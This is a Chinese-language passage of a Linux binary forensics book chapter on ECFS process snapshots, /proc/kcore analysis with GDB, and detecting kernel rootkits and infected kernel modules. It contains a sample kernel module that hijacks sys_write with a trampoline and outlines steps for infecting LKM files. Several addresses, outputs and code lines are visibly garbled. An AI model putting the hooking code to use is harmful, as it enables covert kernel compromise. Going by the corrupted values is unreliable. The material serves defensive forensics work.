            pltgot[i].got_entry_va != pltgot[i].plt_entry_va != 0) {
            printf("! 发现 PLT/GOT 钩子: 函数指向 %lx 而不是 %lx\n",
                pltgot[i].got_entry_va, pltgot[i].plt_entry_va);
        }
    }

    /*
     * 加载动态符号表以通过名称打印
     * 被劫持的函数。
     */
    int symcount = get_dynamic_symbols(desc, &dsyms);
    for (i = 0; i < symcount; i++) {
        if (dsyms[i].symval == evil_addr) {
            printf("[%lx]\n 对应劫持函数: %s\n", dsyms[i].symval,
            dsyms[i].strtab + dsyms[i].nameoffset);
            break;
        }
    }
    return 0;
}
```

以下是使用 `readelf` 读取的读取符号表：

```
$ readelf -s host.6758
```

符号表 `.dynsym` 包含 8 个条目：

| Num | Value | Size | Type | Bind | Vis | Ndx | Name |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0000f7d3df48b000 | 0 | NOTYPE | LOCAL | DEFAULT | UND | |
| 1 | 0000f7d3df4d9730 | 0 | FUNC | GLOBAL | DEFAULT | UND | `fputs` |
| 2 | 0000f7d3df4dacdd0 | 0 | FUNC | GLOBAL | DEFAULT | UND | `__libc_start__` |
| 3 | 0000f7d3df4d9220 | 0 | FUNC | GLOBAL | DEFAULT | UND | `fgets` |
| 4 | 000000000000000 | 0 | NOTYPE | WEAK | GLOBAL | UND | `__gmon_start__` |
| 5 | 0000f7d3df4d94e0 | 0 | FUNC | GLOBAL | DEFAULT | UND | `fopen` |
| 6 | 0000f7d3df54b860 | 0 | FUNC | GLOBAL | DEFAULT | UND | `sleep` |
| 7 | 0000f7d3df54a870 | 8 | OBJECT | GLOBAL | DEFAULT | 25 | `stdout` |

符号表 `.symtab` 包含 5 个条目：

| Num | Value | Size | Type | Bind | Vis | Ndx | Name |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 00000000000040f0 | 112 | FUNC | GLOBAL | DEFAULT | 10 | `sub_4004f0` |
| 1 | 0000000000040560 | 42 | FUNC | GLOBAL | DEFAULT | 10 | `sub_400560` |
| 2 | 000000000004064d | 138 | FUNC | GLOBAL | DEFAULT | 10 | `sub_40064d` |
| 3 | 00000000000406e0 | 101 | FUNC | GLOBAL | DEFAULT | 10 | `sub_4006e0` |
| 4 | 0000000000040750 | 2 | FUNC | GLOBAL | DEFAULT | 10 | `sub_400750` |

## ECFS 节头部

ECFS 处理程序重构了程序可能拥有的大部分原始节头部。它还添加了许多节和节类型，这些内容对于取证分析非常有用。节头部通过名称和类型数据或代码进行标识。

## ECFS – 扩展核心文件快照技术

解析节头部非常简单，因此它们对于创建进程内存镜像的映射非常有用。通过节头部导航整个进程比仅有程序头（program headers，如普通代码文件所示）要容易得多，后者甚至没有字符串名称。程序头描述了内存段（segments），而节头部则提供了给定内存段的上下文。节头部为逆向工程人员提供了高得多的分辨率。

| 节头部 | 说明 |
| :--- | :--- |
| `.TEXT` | 指向文本段（而非 `.text` 节）。这使得无需解析程序头即可定位文本段成为可能。 |
| `.DATA` | 指向数据段（而非 `.data` 节）。这使得无需解析程序头即可定位数据段成为可能。 |


| 节区 | 描述 |
| :--- | :--- |
| `.stack` | 指向多个可能的栈段之一，取决于线程数量。如果没有名为 `.stack` 的节，要知道进程的实际栈位于何处将困难得多。你必须查看 `rsp` 寄存器的值，然后查看哪些程序头段包含与栈指针值匹配的地址范围。 |
| `.heap` | 与 `.stack` 节类似，它指向堆段，这也使得堆的识别变得更容易，特别是在 ASLR 将堆移动到随机位置的系统上。在旧版系统中，它总是从数据段扩展的。 |
| `.bss` | 该节不是 ECFS 新增的。这里提到它的唯一原因是对于可执行文件或共享库，`.bss` 节不包含任何内容，它使用在磁盘上没有空间的未初始化数据。然而，ECFS 代表的是内存，而 `.bss` 节直到运行时才会实际创建。ECFS 文件具有一个 `.bss` 节，准确反映了进程使用的未初始化变量。 |
| `.vdso` | 指向映射到每个 Linux 进程的 `.vdso` 段，该段包含必要的代码，用于某些 glibc 系统调用进入真实的系统调用。 |
| `.vsyscall` | 与 `.vdso` 代码类似，`.vsyscall` 页包含用于调用少数虚拟系统调用的代码。 |

## ECFS - 扩展核心文件快照技术

接下来，是将 ELF 文件类型更改为 `ET_CORE` 并再次尝试的示例：

```bash
$ et_flip sshd.1195
$ gdb -q /usr/bin/sshd sshd.1195
Reading symbols from /usr/sbin/sshd...(no debugging symbols found)
done.
[New LWP 1195]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so."
Core generated by "/usr/sbin/sshd -D'
Program terminated with signal SIGSEGV, Segmentation fault
#0 0x00007ff406b8bd83 in __select() at ../sysdeps/unix/syscall-template.S:81
#1 ..//sysdeps/unix/syscall-template.S: No such file or directory.
(gdb)
```

## libecfs API 及其用法

`libecfs` API 是将 ECFS 支持集成到 Linux 恶意软件分析和逆向工程工具的关键组件。关于该库的内容太多，无法放入本书的单个章节中。我建议你使用与项目本身同步增长的手册：

<https://github.com/elfmaster/ecfs/blob/master/Documentation/libecfs_manual.txt>

## 使用 ECFS 进行进程“复活术”

你是否想过在 Linux 中暂停并恢复一个进程？在设计 ECFS 后，人们很快发现它们包含了足够关于进程及其状态的信息，可以将其重新加载到内存中，从而从中断的地方继续执行。这一功能有许多可能的用场景，并且需要更多的研究开发。

目前，ECFS 快照执行的实现非常基础，只能处理简单进程。在编写本章时，它可以恢复文件流，但不能恢复 socket 或管道，且只能处理单线程进程。执行 ECFS 快照的软件可以在 GitHub 上找到：

<https://github.com/elfmaster/ecfs/ecfs_exec.>

这里是快照执行的示例：

```bash
$ .print_passfile
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologinnsys:x:3:3:sync:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lpx:x:7:7:lp:/var/spool/lp:/usr/sbin/nologin
```

- 被快照中断

我们现在有了 ECFS 快照文件 `print_passfile.6627`（其中 6627 是进程 ID）。我们将使用 `ecfs_exec` 执行此快照，它应该从上次离开的地方开始：

```bash
$ ecfs_exec ./print_passfile.6627
[] Using entry point: 7f79a0473f527
[+] Using stack vaddr: 7ff8c752738
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/var/www:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:irc:/var/run/irc:/usr/sbin/nologin
gnats:x:41:41:gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nbody:x:65:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104:/home/syslog:/bin/false
messagebus:x:102:106:/var/run/dbus:/bin/false
umbusmux:x:103:106:umbusmux daemon,,:/home/umbusmux:/bin/false
dnsmasq:x:104:65534:dnsmasq,,:/var/lib/misc:/bin/false
avahi-autoipid:x:105:113:avahi autoip daemon,,:/var/lib/avahi-autoipid:/bin/false
kernops:x:106:65534:Kernel Oops Tracking Daemon,,:/:/bin/false
saned:x:108:115:/home/saned:/bin/false
whoopsie:x:109:116:/nonexistent:/bin/false
speech-dispatcher:Speech Dispatcher,,,/var/run/speech-dispatcher:/bin/sh
avahi:x111:117:Avahi DNS daemon,,,/var/run/avahi-daemon:/bin/false
lightdm:x112:118:Light Manager,,,/var/lib/lightdm:/bin/false
colord:x113:121:colour management,,,/var/lib/colord:/bin/alse
hlip:x114:7:HPLIP system user,,,/var/run/hplip/bin/false
pulse:x115:222:PulseAudio daemon,,,/var/run/pulse:/bin/false
stat:x116:65534,,,/var/lib/nfs/bin/false
guest-ieuxg:x117:126:Guest,,,/tmp/guest-ieuxg/bin/bash
sshd:x118:65534,,,/var/run/sshd:/usr/sbin/nlogin
gdm:x119:128:Gnome Display Manager,,,var/lib/gdm:/bin/false
```

# 第 9 章

实际上，它是根据 Michael Zalewski 的一个旧工具命名的，名为 `dress`。该工具可以为静态可执行文件添加一个符号表。这个名字源于这样一个事实：人们会运行一个名为 `strip` 的程序来移除执行文件中的符号，因此，“dress”是用于重建符号表工具的恰当名称。我们的工具 `kdress` 简单地从 `System.map` 文件或 `/proc/kallsyms` 中获取符号信息，取决于哪一个更容易可用。然后，它通过为符号表创建一个节区头，将这些信息重构到内核可执行文件中。你可以在我的 GitHub 个人页找到该工具，地址为 <https://github.com/elfmaster/kdress>

## 使用 kdress 构建正确的 vmlinux

以下是如何使用 `kdress` 工具构建一个可以用 GDB 加载的 `vmlinux` 镜像的示例：

```bash
Usage: ../kdress vmlinux_input vmlinux_output <system.map>
```

```bash
$ /kdress /boot/vmlinux-`uname -r` vmlinux /boot/System.map-`uname -r`
[+] vmlinux has been successfully extracted
[+] vmlinux has been successfully instrumented with a complete ELF symbol table.
```

该工具创建一个名为 `vmlinux` 的输出文件，该文件包含一个完全重构的符号表。例如，如果我们想在内核中定位 `sys_call_table`，我们可以很容易找到它：

```bash
$ readelf -s vmlinux | grep sys_call_table
34214: ffffffff81801460 4368 OBJECT GLOBAL DEFAULT 4 sys_call_table
34739: ffffffff81805ca00 2928 OBJECT GLOBAL DEFAULT 4 ia32_sys_call_table
```

带有符号的内核镜像对于调试和取证分析至关重要。几乎所有的 Linux 内核取证都可以通过 GDB 和 `/proc/kcore` 完成。

## /proc/kcore 和 GDB 探索

`/proc/kcore` 技术是一种访问内核内存的接口，它方便地以 ELF core 文件的形式存在，可以使用 GDB 轻松进行导航。

使用 GDB 配合 `/proc/kcore` 是一项无价的技术，可以为熟练的分析师扩展深度取证。这里是一个简短的示例，展示了如何导航 `sys_call_table`。

## Linux /proc/kcore 分析

### 导航 sys_call_table 的示例

```bash
$ sudo gdb -q vmlinux /proc/kcore
Reading symbols from vmlinux...
[New process 1]
```


Core was generated by `BOOT_IMAGE=/vmlinuz-3.16.0-49-generic root=/dev/mapper/ubuntu--vg-root no quiet`

```
#0 0x0000000000000000 in ??
(gdb) print &sys_call_table
$1 = <data variable, no debug info *> 0xffffffff881d81460 <sys_call_table>
(gdb) /gx /sys_call_table:
0xffffffff881d81460 <sys_call_>: 0xffffffff881d5260
(gdb) /x5 <sys_read>:
0xffffffff881d5260 data32 data32 xchg %ax, %ax
0xffffffff881d5265 <sys_read+5>: push %rbp
0xffffffff881d5266 <sys_read+6>: mov %rsp,%rbp
0xffffffff881d5269 <sys_read+9>: push %r14
0xffffffff881d526b <sys_read+11>: mov %rdx,%r14
```

在这个示例中，我们可以查看 `sys_call_table[0]` 头部的第一个指针，并确定它包含系统调用函数 `sys_read` 的地址。然后我们可以查看系统调用的前五条指令。这说明了使用 GDB 和 `/proc/kcore` 导航内核内存是多么简单。如果安装了内核根部程序（rootkit）通过函数跳转挂钩了 `sys_read`，那么显示前几条指令将显示跳转或返回到其他恶意函数。如果你知道要寻找什么，以这种方式使用调试器检测内核 rootkit 是非常有用的。Linux 内核的结构细节以及它如何受到高级技术的影响对许多人来说是如此深奥的。一个章节不足以完全揭秘所有这些内容，但我们将涵盖可能用于感染内核和检测感染的方法。在接下来的章节中，我将从通用角度讨论一些用于感染内核的方法，并给出一些示例。

使用 GDB 和 `/proc/kcore`，可以检测到本文中提到的每种感染。诸如 `kernel Voodoo` 等工具非常棒且方便，但对于检测与正常运行内核的偏差来说并不是绝对必要的。


### 直接修改 sys_call_table

传统的内核 rootkit（如 adore 和 phalanx）通过重写 `sys_call_table` 中的指针来工作，使其指向替换函数，该替换函数会在需要时调用原始系统调用。这是通过 LKM（可加载内核模块）或通过 `/dev/kmem` 或 `/dev/mem` 修改内核的程序实现的。出于安全考虑，现在的 Linux 系统已经限制了这些操作，但通过禁用写保护位可以绕过。因此，对于重建符号表的工具来说，“dress”是一个合适的名字。我们的工具 `dress` 简单地从 `System.map` 文件或 `/proc/kallsyms` 中获取符号信息，取决于哪一个更容易可用。然后，它通过为符号表创建一个节区头，将这些信息重构到内核可执行文件中。你可以在我的 GitHub 个人页找到该工具，地址为 https://github.com/elfmaster/kdress

## 检测 sys_call_table 修改

为了检测 `sys_call_table` 的修改，可以查看 `System.map` 文件或 `/proc/kallsyms`。例如，如果我们想通过 GDB 和 `/proc/kcore` 验证 `sys_call_table` 是否未被篡改：

### 验证系统调用的完整性示例

```
$ grep sys_write /kallsyms
ffffffff81d5310 sys_write
$ grep /usr/include/x86_64-linux-gnu/unistd64.h
#define NR_write 1
$ sudo gdb -q vmlinux /proc/kcore
(gdb) x/8 &sys_call_table
0xffffffff81801464 <sys_call_table+4>: 0xffffffff81d5310
```

记住在 x86 架构上数字是以小端存储的。`sys_call_table[1]` 的值对应于 `kallsyms` 中的 `sys_write`。

## Linux /proc/kcore 分析

### 内核跳转

这种技术最初由 Silvio Cesare 在 1998 年引入。其想法是在不触动 `sys_call_table` 的情况下修改系统调用，但事实是这种技术允许内核中的任何函数被挂钩。因此，它是非常强大的。自 1998 年以来发生了许多变化；内核段无法再通过禁用 cr0 写保护来修改。然而，主要问题是大多数内核使用 SMP（对称多处理），内核跳转在每次调用补丁函数时都会使用非原子操作，这是安全的。事实证明有很好的方法可以解决这个问题，但我不会在这里讨论。真正的点在于，内核跳转实际上仍然在使用，因此理解它们仍然非常重要。

被认为更安全的技术是修补调用原始函数的单个调用指令，使其调用替换函数。这种方法可以作为跳转的替代方案，但找到每一个调用可能非常困难，而且这通常随内核版本而变化。这种方法不具有移植性。

### 函数跳转示例

假设你想劫持 `sys_write` 且不想直接修改 `sys_call_table`，因为它很容易被检测。这可以通过重写 `sys_write` 代码的前 7 个字节，一个包含跳转到另一个函数的存根来实现。

#### 在 32 位内核上劫持 sys_write 的示例代码

```c
#define SYSCALL_NR  NR_write

static char syscall_code[7];
static char new_syscall_code[7] = 
    "\x68\x00\x00\x00\x00\x33"; // push $addr; ret

// 我们新版本的 sys_write
int new_syscall(long fd, void *buf, size_t len)
{
    printk(KERN_INFO "I am the evil sys_write!\n");
}

// 将原始代码替换回 sys_write 的前 6
// 字节（移除 trampoline）
memccpy(
    sys_call_table[SYSCALL_NR], syscall_code,
    sizeof(syscall_code)
);

// 我们现在调用原始系统调用，且不通过
// trampoline
((int*) (fd, buf, len)sys_call_table[SYSCALL_NR])(fd, buf, len);

// 将 trampoline 还原原位！
memccpy(
    sys_call_table[SYSCALL_NR], new_syscall_code,
    sizeof(syscall_code)
);

int init_module(void) {
    // 使用新 sys_write 的地址补丁 trampoline 代码
    *(long *) &new_sys_syscall_code[1] = (long)new_syscall;

    // 将 trampoline 代码插入到 sys_write
    memccpy(
        syscall_code, sys_call_table[SYSCALL_NR],
        sizeof(syscall_code)
    );
    memccpy(
        sys_call_table[SYSCALL_NR], new_syscall_code,
        sizeof(syscall_code)
    );
    return 0;
}

void cleanup_module(void) {
    // 移除感染（trampoline）
    memccpy(
        sys_call_table[SYSCALL_NR], syscall_code,
        sizeof(syscall_code)
    );
}
```

### Linux /proc/kcore 分析

这段代码将 `sys_write` 的前 6 个字节替换为 `push; ret` 存根，它会将新 `sys_write` 函数的地址推入栈并返回到那里。新的 `sys_write` 函数可以根据意愿执行任何秘密操作，尽管在本示例中我们只向内核日志缓冲区打印了一条消息。在完成这些秘密操作后，它必须移除 trampoline 代码，以便调用未受污染的 `sys_write`，最后将 trampoline 代码放回原。

### 检测函数跳转板 (trampolines)

通常，函数跳转板会覆盖其所挂钩（hooking）的函数过程序言（前 5 到 7 个字节），因此，要检测任何内核函数或系统调用中的跳转板，您应该检查前 5 到 7 个字节，并寻找跳转或返回另一个地址的代码。此类代码有多种形式。以下是几个示例。

#### 使用 `ret` 指令的示例

将目标地址推入栈并返回那里。当使用 32 位目标地址时，这占用 6 字节代码：

```assembly
push $address
ret
```

#### 使用间接跳转 (jmp) 的示例

将目标地址移动到寄存器中进行间接跳转。当使用 32 位目标地址时，这占用 7 字节代码：

```assembly
movl $addr, %eax
jmp *%eax
```

#### 使用相对跳转 (jmp) 的示例

计算偏移量并执行相对跳转。使用 32 位偏移量时，占用 5 字节代码：

```assembly
jmp offset
```

例如，如果我们想验证 `sys_write` 系统调用是否已被函数跳转板挂钩，我们可以简单检查其代码，查看过程序言是否仍然存在：

```
$ sudo grep sys_write /proc/kallsyms
0xffffff811d5310
$ sudo gdb -q vmlinux /proc/kcore
```

```
# 从 vmlinux 读取符号...

[新进程 1]

核心转储由 `BOOT_IMAGE=/vminux-3.16.0-49-generic root=/dev/mapper/ubuntu--vg-root quiet` 生成。

(gdb) x/i 0xffffffff81d5d310 <sys_write>:
0xffffffff81d5d310    data32 data32 xchg %ax,%ax
0xffffffff81d5d315 <sys_write+5>    push %rbp
0xffffffff81d5d316 <sys_write+6>    mov %rsp,%rbp
```

前 5 字节作为 NOP 指令插入以进行对齐（或可能是为了跟踪探针）。内核使用字节序列（0x66,0x66,0x66 和 0x90）。过程序言代码紧随初始的 5 个 NOP 字节，完全完好。因此，验证了系统调用没有被 `system_call()` 挂钩，后者反过来调用了 `sys_call_table` 中的选定项：

### 中断处理程序补丁 – int 0x80, syscall

一种经典的激活方法是在内核内存中插入伪系统调用，并修改负责调用系统调用的上半中断处理程序。在 x86 架构中，中断 0x80 已废弃，并被特殊的 syscall/sysenter 指令 0x80 取代，最终调用名为 `system_call()` 的相同函数，后者反过来调用了 `sys_call_table` 中的选定项：

```gdb
(gdb) x/i system_call_fastpath+19
0xffffffff8176ea86 <system_call_fastpath+19>:
callq  *0x7e7feba0(%rax),8
```

在 x86_64 上，之前的指令发生在 `system_call` 中的 `swapgs` 之后。以下是 entry:S 中的代码：

```assembly
call *sys_call_table(%rax),8
```

(r)ax 寄存器包含系统调用号，并乘以 `sizeof(long)`。可以想象攻击者可以使用 `kmalloc()` 在内存中分配一个伪系统调用（其中包含一些指向恶意函数指针的修改），然后补丁指令以以便使用伪系统调用表。这种技术实际上非常隐蔽，因为它对原始的 `sys_call_table` 没有产生任何修改。遗憾的是对于入侵者来说，这种技术对于训练有素的眼睛来说非常容易检测。

### Linux /proc/kcore 分析

### 检测中断处理程序补丁

要检测 `system_call()` 例程是否通过对伪 `sys_call_table` 的调用进行补丁，只需使用 GDB 和 `/proc/kcore` 反汇编代码，然后找出调用偏移量是否指向 `sys_call_table` 的地址。正确的 `sys_call_table` 地址可以在 System.map 或 `/proc/kallsyms` 中找到。

### Kprobe rootkits

这种特定类型的内核 rootkit 最初是在我 2010 年的一篇 Phrack 论文中构思并详细描述的。可以在 http://phrack.org/issues/67/6.html 找到。

这种内核 rootkit 是最奇异的生物之一，因为它使用 Linux 内核的 Kprobe 挂钩在 rootkit 尝试修改的内核函数上设置断点。这种特定技术有其局限性，但它可以非常强大且隐藏。然而，与任何其他技术一样，如果分析师知道要找什么，使用 kprobe 的内核 rootkit 就可以被检测。

### 检测probe rootkits

通过分析内存检测 kprobe 的存在是相当容易的。设置普通的 kprobe 时，会在函数入口（见 kprobe）放置断点。对于检测优化的 kprobe，使用跳转指令而不是断点（int3）。当放在函数的第一个字节时是最容易检测的。最后，`/sys/kernel/debug/kprobes/list` 中存在活跃的 kprobe 列表。良好的 rootkit 还会禁用 `/sys/kernel/debug/kprobes/enabled`。

### 调试寄存器 rootkits – DRR

这种 rootkit 使用 Intel 调试寄存器作为劫持控制流的手段。halfdead 为这种技术写了一篇优秀的 Phrack 论文。可以在此处获取：

```
http://phrack.org/issues/65/8.html.
```

### 检测 DRR

在许多 rootkit 实现中，`sys_call_table` 和其他感染点未被修改，int1 处理程序没有。调用 `do_debug` 函数的指令被补丁为调用替代的 `do_debug` 函数，如之前的 phrack 论文所示。因此，检测这种 rootkit 通常简单是反汇编 int1 处理程序并查看 `call do_debug` 指令的偏移：

```
target_address = address_of_call + offset + 5
```

如果 `target_address` 的值与 Systemmap /proc/kallsyms 中找到的 `do_debug` 地址相同，这意味着 int1 处理程序没有被补丁，被认为是干净的。

### Linux /proc/kcore 分析

### 检测 VFS 层 rootkit

可能存在多项技术可以检测这种类型的感染。然而，通用的思路是验证函数指针地址，并确认它们指向预期的函数。在大多数情况下，这些指针应该指向内核内部的函数，而不是存在于 LKM（加载内核模块）中的函数。检测的一种快速方法是验证这些指针是否在内核文本段（text segment）的范围内。

#### 验证 VFS 函数指针的示例

```c
if ((long)vfs_ops->readdr >= KERNEL_MIN_ADDR &&
    (long)vfs_ops->readdr < KERNEL_MAX_ADDR)
    pointer_is_valid = 1;
else
    pointer_is_valid = 0;
```

### 其他内核感染技术

黑客还有其他技术可用于感染内核（我们在本章中尚未讨论过），例如劫持 Linux 缺页异常处理程序（http://phrack.org/issues/61/7.html）。这些技术中的许多可以通过查找对文本段的修改来检测，这是将在后续几节中检查的检测方法。

### vmlinux 和 .altinstructions 补丁

在我看来，最有效的 rootkit 检测方法可以总结为：根据内存验证内核的代码完整性——换句话说，将内核内存与预期的代码进行比较。等一下，为什么不是 vmlinux 呢？这是我在 2008 年提出的方法。已知 ELF 可执行文件的文本段从磁盘到内存不会改变，除非它是自修改二进制，而内核是……是吗？我很快遇到了麻烦，并在内核内存与 vmlinux 文本段之间发现了代码差异。起初我很困惑，因为在这些测试期间没有安装任何内核 rootkit。在检查 vmlinux 中的某些 ELF 函数后，我很快发现了一些引起注意的区域：

```
$ readelf -S vmlinux | grep alt
[23] .altinstructions PROGITS ffffffff81e64528 01264528
[24] .altinstr_replace PROGITS fffffffff81e64a80 01264a80
```


Linux 内核二进制文件中有几个包含替代指令的节。事实证明，Linux 内核开发者有一个绝妙的主意：如果 Linux 内核能够在运行时智能地修补自己的代码段，根据检测到的特定 CPU 更改“内存屏障”的指令，将会怎样？这是一个很好的主意，因为就不需要为它使用的所有不同类型的 CPU 创建标准内核了。遗憾的是，对于想要检测内核代码段中任何恶意更改的安全研究人员来说，必须先理解并应用这些替代指令。

## .altinstructions 和 .altinstr_replace

有两个节包含了内核中哪些指令在运行时正在被补丁的大部分信息。现在有一篇非常棒的文章解释了这些节，而该文章在我对内核这一领域早期研究时还未发表：

https://lwn.net/Articles/531148

然而，通用的思路是 `.altinstr` 节包含一个 `struct alt_instr` 结构体数组。每个结构体代表一个替代指令记录，给出原始指令的位置以及应用于修补原始指令的新指令的位置。`.altinstr_replace` 节包含由 `alt_instr->repl_offset` 成员引用的实际替代指令。

## 源自 arch/x86/include/asm/alternative.h

```c
struct alt_instr {
    s32 instr_offset;     /* 原始指令 */
    s32 repl_offset;      /* 替换指令的偏移量 */
    u64 cpuid;            /* 用于替换的 cpuid 位 */
    u8 instrlen;          /* 原始指令长度 */
    u8 replacementlen;    /* 新指令长度，<= instrlen */
};
```

在较旧的内核中，前两个成员提供了旧指令的绝对地址，但在较新的内核中使用了相对偏移量。

## 使用 rectify 验证内核代码完整性

多年来，我设计了一些检测 Linux 内核代码段完整性的工具。这种检测技术显然适用于修改文本段的内核 rootkit，而它们大多数以某种方式进行了此类修改。但存在例外，例如仅依赖更改 VFS 层的 rootkit，它们位于数据段，不会通过验证文本段的完整性被检测到。最近我写的工具（内核 Voodoo 软件套件的一部分）命名为 `rectify`，它通过 `/proc/kcore` 对 `vmlinux` 中的文本段进行比对。它解析 `.altinstructions` 以及其他各种节（如 `.parinstructions`），以学习被修补的代码指令的位置。通过这种方式，不会出现误报。虽然 `rectify` 目前尚未向公众发布，但通用思路已经解释。因此，任何愿意尝试那些艰辛的编码过程以使其运行的人都可以实现它。

## 使用 rectify 检查 sys_call_table 的示例

```bash
# /vmlinux /proc/kcore -s sys_call_table
kernel Detective 2014 - Bitlacks.org

+] 范围内分析内核代码/数据的符号 sys_call_table
[0xffffff81801460 0xffffff818ffff000]
+] 没有出现误报。
```

```bash
# /vmlinux /proc/kcore -s sys_call_table
kernel Detective 2014 - Bitlacks.org

+] 范围内分析内核代码/数据 符号 sys_call_table
[0xffffff81801460 0xffffff818ffff000]
+] 没有出现报。
```

在之前的示例中，我们首先检查 `sys_call_table` 是否被修改。在现代 Linux 系统上，`sys_call_table` 被标记为只读，并永久存储在文本段中。我们可以简单地从 `sys_call_table` 开始运行，但有时按名称扫描也是很不错的。

## 使用 taskverse 查看隐藏进程

在 Linux 中，有几种方法可以修改内核使进程隐藏能够工作。由于本章并非对所有 rootkit 进行阐述，我将仅介绍常用的方法，并提出一种检测它的方法，该方法在 `taskverse` 程序中实现。

在 Linux 中，进程 ID 以目录的形式存储在 proc 文件系统中；每个目录包含大量进程信息。`/bin/ps` 程序对 `/proc` 进行目录列表以查看正在运行的 id。Linux 中的目录列表（如 `ps` 或 `ls`）使用 `sys_getdents64` 调用和 `filldir` 函数。许多 rootkit 劫持了其中一个（取决于内核版本），然后插入一些代码来跳过包含隐藏进程 `d_name` 的目录项。结果是，`/bin/ps` 程序无法找到内核 rootkit 跳过的进程。

### Taskverse 技术

`taskverse` 程序是内核 Voodoo 软件包的一部分，但我免费发布了一个更基础的版本，它只使用一种技术来检测隐藏进程；然而，这种技术仍然有用。正如我们刚刚讨论的，rootkit 经常隐藏 `/proc` 中的 pid 目录，导致 `sys_getdents64` 和 `filldir64` 无法看到它们。查看这些进程的最直接明显的方法是完全绕过 `/proc`，跟踪内存中的任务列表来查看由 `struct task_struct` 条目链表表示的每个进程描述符。头部可以通过查找 `init_task` 符号找到。有了这些知识，有一定技能的程序员可以打开 `/proc/kcore` 并遍历任务列表。细节可以在我 GitHub 页面上的项目中查看，地址为 https://github.com/elfmaster/taskverse。

## 受感染的 LKM – 内核驱动

到目前为止，我们已经涵盖了内存中各种内核 rootkit 感染，我认为本章需要专门的章节来解释内核驱动如何被攻击者感染，以及如何检测这些感染。

### Linux /proc/kcore 分析

### 感染 LKM 文件的方法 1——符号劫持

LKM 是 ELF 对象。更具体地说，它们是 `ET_REL` 文件（目标文件）。由于它们本质上是可重定位代码，因此感染它们的方法（例如劫持函数）受到了限制。幸运的是，在 ELF 内核对象的加载期间会发生一些内核特有的机制，在 LKM 内部进行函数重定位的过程中，这种机制使得感染它们变得非常容易。这种方法的整体及其原因在这篇精彩的 Phrack 文章（http://phrack.org/issues/68/11.html）中有详细描述，但其核心思想非常简单：

1. 将寄生代码注入或链接到内核模块。
2. 修改 `init_module()` 的符号值，使其与恶意替换函数具有相同的偏移/值。

这是攻击者在现代 Linux 系统（2.6 到 3.x 内核）上广泛使用的方法。还有另一种方法在其他任何地方都未被具体描述过，我将简要分享一下。

### 感染 LKM 文件的方法 2（函数劫持）

如前所述，LKM 文件是可重定位代码，因此添加代码非常容易，因为寄生代码可以用 C 语言编写并在链接前编译为可重定位代码。在链接寄生代码（假设其中包含一个或多个新函数）后，攻击者可以使用本章早期描述的函数跳板简单地劫持 LKM 中的任何函数。因此，攻击者将目标函数的前几个字节替换为指向新函数的跳转。然后，新函数在调用旧函数之前会用 `memcpy` 将原始字节拷贝到旧函数，然后再用 `memcpy` 将跳板还原原位，以便下次调用 hook 时使用。


> 在较新的系统中，在补丁文本段之前必须禁用写保护位，例如实现函数跳板时必需的 `memcpy()` 调用。

### 检测被感染的 LKM

根据刚才描述的两种简单检测方法，该问题的解决方案似乎是显而易见的。对于符号劫持方法，你只需要寻找两个具有相同值的符号即可。在 Phrack 展示的示例中，`init_module()` 被劫持了，但该技术适用于任何攻击者想要劫持的函数。这是因为内核会处理每一个函数的重定位（尽管我还没有测试过这个理论）：

```bash
$ objdump -t infected.lkm

00000040 g      F .text      0000001b evil
...
00000440 g      F .text      0000001b init_module
```

注意前面的符号输出，`init_module` 和 `evil` 具有相同的相对地址。正如 Phrack 68 #11 所示，这正是一个被感染的 LKM。检测带有跳板的函数非常简单，已经在第 9.63 节中描述过，我们在该节讨论了如何检测内核中的跳板。只需对 LKM 文件中的函数应用相同的分析即可，可以使用 `objdump` 等工具对其进行反汇编。

## 关于 /dev/kmem 和 /dev/mem 的说明

在过去，黑客能够使用 `/dev/kmem` 文件修改内核。这为程序员提供了一个访问内核内存的原始接口，但最终受到了各种安全补丁的影响，并从许多发行版中移除。然而，某些发行版仍然保留了读取权限，这可以作为检测内核恶意软件的强大工具，但只要 `/proc/kcore` 可用，它并不是必须的。内核补丁领域最优秀的工作之一是 Silvio Cesare 构思的 Linux 内核补丁，可以在此处找到：

- 运行时内核 kmem 补丁：http://althing.cs.dartmouth.edu/local/vsc07.html

### /dev/mem

已经有很多使用 `/dev/mem` 的内核 rootkit，即 Rebel 写的 phalanx 和 phalanx2。这经过了多次安全补丁。目前，它存在于所有系统中以向后兼容，但只有前 1 MB 内存是可以访问的，主要供 X Windows 使用的旧工具使用。

### Linux /proc/kcore 分析

### FreeBSD – /dev/kmmem

在 FreeBSD 等操作系统上，`/dev/kmmem` 设备仍然可用且默认可写。甚至有一个专门为访问它而设计的 API，并且有一本《Writing BSD rootkits》展示了它的能力。

## K-ecfs – 内核 ECFS

在前一章中，我们讨论了 ECFS（扩展核心文件快照）技术。在本章末尾提到，我为内核 ECFS 编写了一些代码，它将 `vmlinux` 和 `/proc/kcore` 合并为一个内核 ECFS 文件。结果本质上是一个类似于 `/proc/kcore` 的文件，但它还包含节头和符号。通过这样，分析师可以轻松访问内核和内存的任何部分（例如“vmallocd”内存）。这段代码最终将开源。

### 内核 ECFS 文件的预览

在这里，我们演示了在给定一组 ELF 节头部的情况下如何将 `/proc/kcore` 快照到名为 `kcore.ecfs kcore.img` 的文件中：

```bash
# ./kcore_ecfs kcore.img
# readelf -S kcore.img
有 6 个节头部，从偏移量 0x6040af 开始：
```

| 序号 | 名称 | 偏移量 | 大小 | 标志 | 链接 | 对齐 |
